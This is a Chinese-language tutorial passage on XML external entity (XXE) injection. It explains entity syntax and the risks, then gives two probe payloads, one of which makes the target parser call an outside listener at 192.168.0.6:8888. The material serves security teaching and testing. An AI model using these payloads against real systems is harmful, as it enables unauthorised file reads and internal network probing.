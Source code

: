 ### 一个外部实体声明
语法：
```
<!ENTITY entity-name SYSTEM "URI/URL">
```
实例：
```
<!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">
XML example:
<author>&writer;&copyright;</author>
```

## 预备知识

XML语言基础

## 简介

XXE就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

## 验证漏洞

检测XML是否会被解析

```
<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY test "aaaaa">  
]> 
<reset><login>&test;</login><secret>Any bugs?</secret></reset>
```



![图片](../../../../img/xxe_1.png)

检测是否支持外部实体：

- SYSTEM 
- % remote
- %remote;

```
<?xml version="1.0" encoding="gbk" ?>
<!DOCTYPE ANY[  
<!ENTITY % remote SYSTEM "http://192.168.0.6:8888">
%remote;
]> 
<reset><login>&remote;</login><secret>Any bugs?</secret></reset>
```



![图片](../../../../img/xxe_2.png)

